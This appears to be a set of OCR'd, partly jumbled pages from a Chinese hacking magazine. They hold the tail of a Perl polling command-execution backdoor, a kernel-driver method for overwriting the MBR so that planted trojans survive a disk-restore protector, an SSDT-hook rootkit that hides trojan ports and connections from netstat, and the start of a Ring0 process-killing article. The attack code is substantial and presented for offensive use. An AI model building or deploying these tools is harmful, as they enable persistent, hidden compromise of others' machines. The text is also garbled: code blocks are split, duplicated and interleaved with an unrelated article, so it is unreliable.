##### cgi_read 函数分 GET 和 POST 情况处理递交到 CGI 的信息
sub show {
  ...
}

# show 函数读取存储的数据，生成操作页面发送到前端浏览器，该部分代码较为冗长，详见源文件
sub compare_time{
  open(FILE,"<last_time.wG");
  my $last_time = <FILE>;
  if($second-$last_time<90){return "ON";} else{return "OFF";}
}

# compare_time 函数比较执行服务器上次登录时间和当前时间，由此判断是否执行服务器在线
sub add_data{
  my ($c,$r) = @_;
  open(FILE,">>data.wG");
  print FILE "$time|wG|command: $c --- $r\n";
  close FILE;
  open(FILE,"<command.wG");
  my @text = <FILE>;
  chomp(@text);
  close FILE;
  unlink("command.wG");
  open(FILE,">>command.wG");
  my %command = @text;
  delete $command{$c};
  while (my($a,$b) = each(%command)) {
    print FILE "$a\n$b\n";
  }
  close FILE;
}

##### add_data 函数存储已执行指令到文件中，生成数据文件
sub add_command{
  open(FILE,">>command.wG");
  print FILE "$_[0]\nwG+command\n";
  close FILE;
}

##### add_command 函数存储未执行指令到文件中，供执行服务器读取
sub set_time{
  open(FILE,">last_time.wG");
  print FILE "$second";
  close FILE;
}

# set_time 函数保存当前时间到文件，与 compare_time 函数配合，实现比较
sub send_command{
  open(FILE,"<command.wG");
  my @text = <FILE>;
  close FILE;
  print "Content-type: text/html\n\n";
  print @text;
}

##### send_command 函数向执行服务器发送指令
```

- 2）执行服务器（Server）

```perl
#!/usr/bin/perl
use strict;
use LWP;

my $ua = LWP::UserAgent->new();

while(1){
  sleep(60);
  main();
}

# 运行后每 60s，执行 main 函数
sub main{
  $ua->mirror('http://127.0.0.1/cgi-bin/B-dS.pl?sign=1','command.wG');
  open(FILE,"<command.wG");
  my @text = <FILE>;
  chomp(@text);
  close FILE;

  my %command = @text;
  while (my($a,$b)=each(%command)){
    if(system("$a")){
      my $url1 = "http://127.0.0.1/cgi-bin/B-dS.pl?command=$a&return=failed";
      re($url1);
    }else{
      my $url2 = "http://127.0.0.1/cgi-bin/B-dS.pl?command=$a&return=done";
      re($url2);
    }
  }
}

# 指令执行后，将结果反馈回中转服务器
sub re{
  my $url = $_[0];
  my $request = HTTP::Request->new(GET => $url);
  my $a = $ua->request($request);
}

##### re 函数反馈执行结果
```

以上代码编译后的运行结果和页面如图2和图3所示。

#### 有待解决的问题

这组模型转换到较为正式的软件还需要很大的改进，特别是中转服务器必须支持多用户登录和操作，这就关系到数据存储和一个数据库结构的设计问题。而执行服务器的想法是在正式开发中使用 C 语言编写，其中可能还要用到其他进程隐藏和注入的技术，整个开发计划的可行性还有待讨论，这里仅仅给大家提供一个编写的思路，欢迎大家能与我多多交流。





前置知识：VC  
关键词：编程、还原精灵、驱动



### “摧毁”还原精灵——系统

文/虎子哥哥

“摧毁”还原精灵保护系统是我很久以来的愿望，我想这一定也是大家的愿望。经过长时间的努力，现在我终于可以把还原精灵的保护系统破坏掉。虽然不是像机器狗那样穿透了还原精灵，但也完全可以使还原精灵失去作用。

还原精灵采用的是虚拟还原技术，能够在电脑重启后将先前做的一切改动复原，于是重启前感染上的病毒和木马就都消失得无影无踪了。所以，我们在网吧、学校机房等场所屡屡见到它的身影。在这些特殊的环境条件下，它对计算机起到的保护作用甚至比杀毒软件更为重要。

我们精心编制的病毒和木马好不容易感染到一台机器，可是在重启之后就没有了，自然很“不甘心”啊。那么，到底有没有办法破坏掉还原精灵呢？

下面我们就一起来探讨一下还原精灵的工作原理。还原精灵之所以可以在重启后将其状态还原，是因为机器启动时首先执行的硬盘主引导程序被它替换了，还原精灵放到主引导扇区的这段代码对系统状态的还原起到了关键作用。所以，我们只要把主引导扇区改回到安装还原精灵之前的样子，还原精灵就被毁掉了。

修复被还原精灵更改的主引导扇区，说起来并不复杂，但做起来却并不容易。因为还原精灵在 Windows 里设有很底层的驱动，可以过滤对硬盘的读写操作。当它发现有应用程序读写主引导扇区时，就会把应用程序的这种请求导向硬盘上保存原来主引导程序的地方，从而防止了自己在主引导扇区的代码不被更改。那么我们怎么办呢？方法是利用 I/O 端口来读写硬盘，这样就不会被还原精灵拦截到了。因为操作 I/O 端口需要 Ring0 权限，所以我们要编写一个驱动来实现。

下面给出在驱动里通过 I/O 端口写主引导扇区的关键代码。

```c
NTSTATUS DispatchIoctl(PDEVICE_OBJECT DeviceObject, PIRP pIrp)
{
    NTSTATUS status = STATUS_NOT_SUPPORTED;
    PVOID pIoBuffer = pIrp->AssociatedIrp.SystemBuffer;
    PIO_STACK_LOCATION pIrpStack = IoGetCurrentIrpStackLocation(pIrp);
    ULONG outSize = pIrpStack->Parameters.DeviceIoControl.OutputBufferLength;
    ULONG IoControlCode = pIrpStack->Parameters.DeviceIoControl.IoControlCode;

    switch(IoControlCode)
    {
        case IOCTL_WRITE:
            __asm
            {
                push eax
                push edx

                mov dx,1f6h
                // 要读入的磁盘号及磁头号
                mov al,0a0h  // 磁盘0，磁头0
                out dx,al
            }
    }
}
```

#### 编程解析

```c
mov dx,1f2h
// 要写的扇区数量
mov al,1 // 写一个扇区
out dx,al

mov dx,1f3h
// 要写的扇区号
mov al,1 // 写到1扇区
out dx,al

mov dx,1f4h
// 要写的柱面的低8位
mov al,0 // 低8位为0
out dx,al

mov dx,1f5h
// 要写的柱面的高2位
mov al,0 // 高2位为0
out dx,al

mov dx,1f7h // 命令端口
mov al,30h // 尝试着写扇区
out dx,al

still_going_1:
in al,dx
test al,8
// 如果扇区缓冲没有准备好的话则跳转，直到准备好才向下执行
jz still_going_1
pop edx
pop eax
}
WRITE_PORT_BUFFER_USHORT((PUSHORT)0x1f0, (PUSHORT)ploBuffer, 256);
status = STATUS_SUCCESS;
break;
}
}
```

有了这段驱动代码，我们只要在应用程序中调用DeviceIoControl函数来提交我们想写入主引导扇区的数据，就可以改写主引导扇区了。

不过，编好了驱动还不行，因为驱动要经过安装才能起作用。至于怎么安装驱动，这不是本文的主题，我就不详细介绍了，大家可以使用我随文提供的一个程序来进行安装。

最后说说如何得到还原精灵安装以前的初始主引导扇区数据。其实这个非常简单，直接在应用程序中调用ReadFile函数即可得到。因为在应用程序中调用这个函数读取主引导扇区时，会被还原精灵自动导向初始的主引导扇区去，这样就直接得到了我们想要的数据。接着我们通过DeviceIoControl函数把这些数据提交给驱动，它们就被重新写回到主引导扇区，还原精灵就被毁掉了。下面是应用程序里的关键代码。

```c
hDevice = CreateFile("\\\\.\\PhysicalDrive0",
    GENERIC_READ,
    FILE_SHARE_READ | FILE_SHARE_WRITE,
    NULL,
    OPEN_EXISTING,
    0,
    NULL);
if(hDevice == INVALID_HANDLE_VALUE)
{
    printf("\nFailed -- CreateFile.\n");
    return 0;
}

bRet = ReadFile(hDevice, (LPVOID)bytBuffer, 512, &dwBytesReturned, NULL);
if(bRet == FALSE)
{
    printf("\nFailed -- ReadFile.\n");
    return 0;
}

bRet = DeviceIoControl(hDriver, IOCTL_WRITE,
    (LPVOID)bytBuffer, 512,
    NULL, 0, &dwBytesReturned, NULL);
if(bRet == FALSE)
{
    printf("\nFailed -- DeviceIoControl.\n");
    return 0;
}
```

至此，“摧毁”还原精灵的整个过程就介绍得差不多了。最后再说明一下程序的效果和程序的不足之处。在安装了还原精灵的机器下，以管理员身份登录，安装好驱动以后，执行应用程序即可破坏掉还原精灵，随后还原精灵就不会再起任何作用。但不足之处在于用完这个程序之后，电脑下次启动的时候会在Windows滚动条的地方卡住，需要强制关机以后选择“最后一次正确的配置”来启动到Windows。关于这个问题，希望能与感兴趣的朋友在黑防论坛上共同讨论，以找到解决办法，也请大家不吝赐教，我的ID是虎了哥哥。

前置知识：VC  
关键词：编程、RootKit、端口隐藏

### Rootkit 端口隐藏实现



文/夜枫 [X.F.S.T] 图

以前给大家介绍过RootKit文件隐藏的方法，这次则将给大家介绍RootKit端口隐藏的实现。其实很多木马，例如ByShell的端口隐藏，都是使用此方法实现的。

#### 原理

《在NT系统中让自己消失》一文中提到了如netstat之类的程序都是通过AllocateAndGetTcpTableFromStack等API来查询端口信息的，需要注意的是，每个函数有个ExTable扩展表，这个表的区别是带进程的PID，可以通过PID来判断所属进程，我们下面会进行详细介绍。

根据文中所说，这几个API最后定位在iphlpapi.dll上，而这个动态库调用NtDeviceIoControlFile这个Native API来进入内核查询信息，所以我们还是用最简单有效的SSDT Hook来挂钩此函数，当函数返回时，我们修改返回信息，把自己的端口抹掉。这和我以前的《RootKit隐藏文件》一文的思路类似，其实SSDT Hook的思路基本都是这样的。

#### 实现

- 1. 通过本地端口隐藏，即输入本地已经监听的端口（如木马的8000等端口）实现隐藏。隐藏后`netstat -an`和`-ano`都无法查看到，部分Ring3下安全工具也无法查看。
- 2. 通过远程地址隐藏，这个用于木马上比较管用，即隐藏针对某一IP的所有链接，如连接到218.88.88.88的所有链接。
- 3. 通过远程端口隐藏，输入远程某一端口（如IIS的80），启动隐藏后，连接到远程端口为80的所有链接都被隐藏，效果也和上面一样。

```c
NTSTATUS DriverEntry(
IN PDRIVER_OBJECT DriverObject,
IN PUNICODE_STRING RegistryPath
)
{
    NTSTATUS ntStatus = STATUS_SUCCESS;
    PDEVICE_OBJECT DeviceObject = NULL;
    UNICODE_STRING ntDeviceName, dosDeviceName;
    BOOLEAN fSymbolicLink = FALSE;

    RtlInitUnicodeString(&ntDeviceName, NT_DEVICE_NAME);

    // 创建设备对象
    ntStatus = IoCreateDevice(
        DriverObject,
        0,
        &ntDeviceName,
        FILE_DEVICE_UNKNOWN,
        0,
        FALSE,
        &DeviceObject
    );

    if (!NT_SUCCESS(ntStatus)) {
        KdPrint(("创建设备对象失败:%X\n", ntStatus));
        goto __failed;
    }

    RtlInitUnicodeString(&dosDeviceName, DOS_DEVICE_NAME);
    ntStatus = IoCreateSymbolicLink(&dosDeviceName, &ntDeviceName);
    if (!NT_SUCCESS(ntStatus)) {
        KdPrint(("创建符号链接失败:%X\n", ntStatus));
        goto __failed;
    }
    fSymbolicLink = TRUE;

    // 指定分发
    DriverObject->MajorFunction[IRP_MJ_CREATE] = HideProtDispatchCreateClose;
    DriverObject->MajorFunction[IRP_MJ_CLOSE] = HideProtDispatchCreateClose;
    DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = HideProtDispatchDeviceControl;
    DriverObject->DriverUnload = OnUnload;

    // —— 修改SSDT —— [5/22/2008 Admin]
    m_MDL = MmCreateMdl(NULL,
        KeServiceDescriptorTable.ServiceTableBase,
        KeServiceDescriptorTable.NumberOfServices * 4);
    if (!m_MDL)
        return STATUS_UNSUCCESSFUL;

    // 非分页内存
    MmBuildMdlForNonPagedPool(m_MDL);
    m_MDL->MdlFlags = m_MDL->MdlFlags | MDL_MAPPED_TO_SYSTEM_VA;

    // 锁定
    m_Mapped = MmMapLockedPages(m_MDL, KernelMode);
    HOOK_SYSCALL(ZwDeviceIoControlFile,
        NewZwDeviceIoControlFile, OldZwDeviceIoControlFile);

    KdPrint(("驱动启动成功...\n"));
    return ntStatus;

__failed:
    if (fSymbolicLink)
        IoDeleteSymbolicLink(&dosDeviceName);
    if (DeviceObject)
        IoDeleteDevice(DeviceObject);
    return ntStatus;
}
```

入口函数基本都是固定样式，因为这里我需要和Ring3程序通信，所以建立了一个设备对象。另外，后半部分我采用MDL来设置内存可写，以修改SSDT表。

IRP_MJ_CREATE和IRP_MJ_CLOSE没什么好说的，但请注意我还设置了IRP_MJ_DEVICE_CONTROL例程，这个IRP是用户模式程序调用DeviceIoControl时产生的，这个API我以前已经介绍过了，就不浪费篇幅了。一般驱动都是用这个方法和用户模式程序通信的，下面看看我写的这个处理例程。

```c
// 设备通信
NTSTATUS HideProtDispatchDeviceControl(
    IN PDEVICE_OBJECT DeviceObject,
    IN PIRP Irp
)
{
    NTSTATUS ntStatus;
    PIO_STACK_LOCATION IrpStack = IoGetCurrentIrpStackLocation(Irp);
    PVOID lpInBuffer = NULL;
    ULONG nInBufferSize, nOutBufferSize, dwIoControlCode;

    Irp->IoStatus.Status = STATUS_SUCCESS;
    Irp->IoStatus.Information = 0;

    // 获得输入缓冲区空间地址
    lpInBuffer = Irp->AssociatedIrp.SystemBuffer;
    nInBufferSize = IrpStack->Parameters.DeviceIoControl.InputBufferLength;
    nOutBufferSize = IrpStack->Parameters.DeviceIoControl.OutputBufferLength;
    dwIoControlCode = IrpStack->Parameters.DeviceIoControl.IoControlCode;

    switch (dwIoControlCode)
    {
    case IOCTL_SET_LOCAL_CONTROL:
    {
        HideType = 1;
        memcpy(&LocalPort, lpInBuffer, sizeof(ULONG));
        KdPrint(("设置为本地端口模式:%d\n", LocalPort));
        break;
    }
    case IOCTL_SET_RHOST_CONTROL:
    {
        HideType = 2;
        memcpy(&RemoteHost, lpInBuffer, sizeof(ULONG));
        KdPrint(("设置为远程地址模式:0x%X\n", RemoteHost));
        break;
    }
    case IOCTL_SET_RPORT_CONTROL:
    {
        HideType = 3;
        memcpy(&RemotePort, lpInBuffer, sizeof(ULONG));
        KdPrint(("设置为远程端口模式:%d\n", RemotePort));
        break;
    }
    default:
        Irp->IoStatus.Status = STATUS_INVALID_PARAMETER;
        break;
    }

    ntStatus = Irp->IoStatus.Status;
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
    return ntStatus;
}
```

在这段代码中，我用HideType这个变量来保存隐藏的类型，以实现上面说的3种隐藏方法。设置好了隐藏的类型和相关数据后，下面再来看看具体的隐藏处理部分是怎么实现的。

```c
NTSTATUS NTAPI NewZwDeviceIoControlFile(
    IN HANDLE FileHandle,
    IN HANDLE Event OPTIONAL,
    IN PIO_APC_ROUTINE ApcRoutine OPTIONAL,
    IN PVOID ApcContext OPTIONAL,
    OUT PIO_STATUS_BLOCK IoStatusBlock,
    IN ULONG IoControlCode,
    IN PVOID InputBuffer OPTIONAL,
    IN ULONG InputBufferLength,
    OUT PVOID OutputBuffer OPTIONAL,
    IN ULONG OutputBufferLength
)
{
    TCP_REQUEST_QUERY_INFORMATION_EX req;
    ULONG NumCount = 0;
    ULONG i = 0;
    TCPAddrEntry* TcpTable = NULL;
    TCPAddrExEntry* TcpTableEx = NULL;

    // 调用旧函数
    NTSTATUS ntStatus = ((ZWDEVICEIOCONTROLFILE)OldZwDeviceIoControlFile)(
        FileHandle,
        Event,
        ApcRoutine,
        ApcContext,
        IoStatusBlock,
        IoControlCode,
        InputBuffer,
        InputBufferLength,
        OutputBuffer,
        OutputBufferLength);

    // 判断是否为查询TCP连接信息
    if (IoControlCode != IOCTL_TCP_QUERY_INFORMATION_EX)
        return ntStatus;

    // 原函数返回不成功
    if (!NT_SUCCESS(ntStatus))
        return ntStatus;

    // 获得输入缓冲区
    memcpy(&req, InputBuffer, sizeof(TDIObjectID));
    if ((req.ID.toi_entity.tei_entity == CO_TL_ENTITY)
        && (req.ID.toi_entity.tei_instance == 0)
        && (req.ID.toi_class == INFO_CLASS_PROTOCOL)
        && (req.ID.toi_type == INFO_TYPE_PROVIDER))
    {
        // 判断是否为端口查询
        {
            // 普通查询
        }
    }

    if (req.ID.toi_id == TCP_MIB_ADDRTABLE_ENTRY_ID)
    {
        NumCount = IoStatusBlock->Information / sizeof(TCPAddrEntry);
        TcpTable = (TCPAddrEntry*)OutputBuffer;

        // 循环链表，找到并修改需要隐藏的端口
        for (i = 0; i < NumCount; i++) {
            // 模式为本地端口
            if (HideType == 1) {
                if (ntohs(TcpTable[i].tae_ConnLocalPort) == LocalPort) {
                    KdPrint(("普通隐藏[本地端口]: %d\n", ntohs(TcpTable[i].tae_ConnLocalPort)));
                    memcpy((TcpTable + i), (TcpTable + i + 1), ((NumCount - i - 1) * sizeof(TCPAddrEntry)));
                    NumCount--;
                    i--;
                }
            }

            // 模式为远程地址
            if (HideType == 2) {
                if (TcpTable[i].tae_ConnRemAddress == RemoteHost) {
                    KdPrint(("普通隐藏[远程地址] 0x%x\n", TcpTable[i].tae_ConnRemAddress));
                    memcpy((TcpTable + i), (TcpTable + i + 1), ((NumCount - i - 1) * sizeof(TCPAddrEntry)));
                    NumCount--;
                    i--;
                }
            }

            // 模式为远程端口
            if (HideType == 3) {
                if (ntohs(TcpTable[i].tae_ConnRemPort) == RemotePort) {
                    KdPrint(("普通隐藏[远程端口] %d\n", ntohs(TcpTable[i].tae_ConnRemPort)));
                    memcpy((TcpTable + i), (TcpTable + i + 1), ((NumCount - i - 1) * sizeof(TCPAddrEntry)));
                    NumCount--;
                    i--;
                }
            }
        }
        IoStatusBlock->Information = NumCount * sizeof(TCPAddrEntry);
    }

    // 带进程PID的查询
    if (req.ID.toi_id == TCP_MIB_ADDRTABLE_ENTRY_EX_ID)
    {
        NumCount = IoStatusBlock->Information / sizeof(...);
    }
}
```

```c
NumCount = IoStatusBlock->Information / sizeof(TCPAddrExEntry);
TcpTableEx = (TCPAddrExEntry*)OutputBuffer;
// 循环链表
for(i = 0; i < NumCount; i++) {
    // 为本地端口模式
    if (HideType == 1) {
        if (ntohs(TcpTableEx[i].tae_ConnLocalPort) == LocalPort) {
            KdPrint(("扩展隐藏[本地端口] %d\n", ntohs(TcpTableEx[i].tae_ConnLocalPort)));
            memcpy((TcpTableEx+i), (TcpTableEx+i+1), ((NumCount-i-1)*sizeof(TCPAddrExEntry)));
            NumCount--;
            i--;
        }
    }

    // 当前为远程地址模式
    if (HideType == 2) {
        if (TcpTableEx[i].tae_ConnRemAddress == RemoteHost) {
            KdPrint(("扩展隐藏[远程地址] 0x%x\n", TcpTableEx[i].tae_ConnRemAddress));
            memcpy((TcpTableEx+i), (TcpTableEx+i+1), ((NumCount-i-1)*sizeof(TCPAddrExEntry)));
            NumCount--;
            i--;
        }
    }

    // 远程端口模式
    if (HideType == 3) {
        if (ntohs(TcpTableEx[i].tae_ConnRemPort) == RemotePort) {
            KdPrint(("扩展隐藏[远程端口] %d\n", ntohs(TcpTableEx[i].tae_ConnRemPort)));
            memcpy((TcpTableEx+i), (TcpTableEx+i+1), ((NumCount-i-1)*sizeof(TCPAddrExEntry)));
            NumCount--;
            i--;
        }
    }
}

IoStatusBlock->Information = NumCount*sizeof(TCPAddrExEntry);
return ntStatus;
```

这里也是我们隐藏端口的核心了，大致可以看出来，先调用一次旧的函数，查询到端口信息后，判断是否为IOCTL_TCP_QUERY_INFORMATION_EX，即是否为查询端口信息，这里是TCP端口，如果不是则直接返回，如果是呢？我们继续往下分析。

`memcpy(&req, InputBuffer, sizeof(TDIObjectID));`
其形参里有个InputBuffer，从名字我们可以知道这个肯定是Ring3程序调用时发送过来的。我们将其拷贝给req这个结构体，然后从多方面判断是否为查询端口的请求，如果一切都符合，则继续。注意，这里的req.ID.toi_id可以取两个值，一个是TCP_MIB_ADDRTABLE_ENTRY_ID，表示为普通查询；另外一个是XP独有的TCP_MIB_ADDRTABLE_ENTRY_EX_ID，表示返回信息包括了所属进程的PID，所以这里我们两个都要改，否则就会出现“an”查不到，“ano”就原形毕露了。

```c
NumCount = IoStatusBlock->Information / sizeof(TCPAddrEntry);
TcpTable = (TCPAddrEntry*)OutputBuffer;
// 循环链表，找到并修改需要隐藏的端口
for(i = 0; i < NumCount; i++) {
    // 模式为本地端口
    if(HideType == 1) {
        if(ntohs(TcpTable[i].tae_ConnLocalPort) == LocalPort) {
            KdPrint(("普通隐藏[本地端口] %d\n", ntohs(TcpTable[i].tae_ConnLocalPort)));
            memcpy((TcpTable+i), (TcpTable+i+1), ((NumCount-i-1)*sizeof(TCPAddrEntry)));
            NumCount--;
            i--;
        }
    }

    // 模式为远程地址
    if(HideType == 2) {
        if(TcpTable[i].tae_ConnRemAddress == RemoteHost) {
            KdPrint(("普通隐藏[远程地址] 0x%x\n", TcpTable[i].tae_ConnRemAddress));
            memcpy((TcpTable+i), (TcpTable+i+1), ((NumCount-i-1)*sizeof(TCPAddrEntry)));
            NumCount--;
            i--;
        }
    }

    // 模式为远程端口
    if(HideType == 3) {
        if(ntohs(TcpTable[i].tae_ConnRemPort) == RemotePort) {
            KdPrint(("普通隐藏[远程端口] %d\n", ntohs(TcpTable[i].tae_ConnRemPort)));
        }
    }
}
```

## Ring0中强行结束进程

文／牵着蜗牛去散步

前置知识：VC  
关键词：编程，Ring0，结束进程

进程强行结束在安全方面用到的比较多，尤其是反病毒、反流氓软件。大家都知道，在Ring3中最早使用的是TerminateProcess()这个Win32 API，配合SE_DEBUG权限可以结束掉大部分的进程，包括Win32系统服务，后来又出现了关联工作对象的方法，通过结束工作对象TerminateJobObject()来强行结束进程。今天我们就谈谈Ring0中都有哪些常用的方法。

要了解底层的东西，我们自然离不开调试器，SoftICE虽然好用，但已经不再更新了，对于新的Vista操作系统还是有些无奈，就用微软给我们准备的免费GUI内核调试器WinDbg来做分析吧。WinDbg可以工作在Ring3中，使用比较稳定方便，同时WinDbg和kd可以分析Windows的蓝屏Dump文件。使用kd本地内核模式调试配合Windows符号可以轻松了解Windows NT内核的秘密。

很多人感觉在Ring0中使用ZwTerminateProcess比较简单，但是SSDT比较容易被Hook，通过真实的SSDT地址来结束进程也是一种好的方法，但是ZwTerminateProcess还是层面比较高的东西，同时不能算是暴力结束。用过IceSword的读者，一定还记得可以把Windows进程杀得仅剩3个吧？那么IceSword是如何做到的呢？Win32子系统smss.exe（Session Manager SubSystem）又是如何结束的呢？

```c
memcpy((TcpTable+i), (TcpTable+i+1), ((NumCount-i-1)*sizeof(TCPAddrEntry)));
NumCount--;
i--;
...
IoStatusBlock->Information = NumCount*sizeof(TCPAddrEntry);
```

这里很简单了，OutputBuffer从名字就可以判断出肯定是输出缓冲区，也就是查询到的端口信息保存的地方。我们通过判断HideType的类型来进行不同的隐藏，TcpTable的定义如下。

```c
typedef struct TCPAddrEntry {
  ULONG tae_ConnState;
  ULONG tae_ConnLocalAddress;
  ULONG tae_ConnLocalPort;
  ULONG tae_ConnRemAddress;
  ULONG tae_ConnRemPort;
} TCPAddrEntry;
```

